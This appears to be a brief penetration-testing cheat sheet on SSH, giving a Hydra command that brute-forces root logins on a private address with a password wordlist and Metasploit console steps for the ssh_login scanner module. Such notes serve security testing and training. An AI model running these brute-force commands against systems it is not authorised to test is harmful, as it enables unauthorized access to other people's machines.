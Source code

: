 # SSH

## Bruteforce SSH with Hydra

```bash
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh 192.168.1.2:22 -t 4 -V
```

## Bruteforce SSH with Metasploit

```bash
msfconsole
search ssh
use auxiliary/scanner/ssh_login
options
```

